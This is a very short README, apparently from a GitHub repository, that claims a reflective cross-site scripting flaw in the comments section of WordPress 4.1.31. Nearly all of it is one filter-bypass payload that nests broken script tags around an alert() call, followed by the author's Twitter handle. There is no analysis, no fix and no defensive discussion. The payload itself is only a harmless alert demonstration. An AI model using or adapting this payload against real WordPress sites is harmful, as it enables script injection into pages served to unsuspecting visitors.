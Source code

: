 # XSS-WordPress-v4.1.31
Reflective XSS in WordPress 4.1.31


in the comments section, you can bypass the filters with <sc<script>rip>alert('ex')</sc</script>ript>

twitter: @inseertt
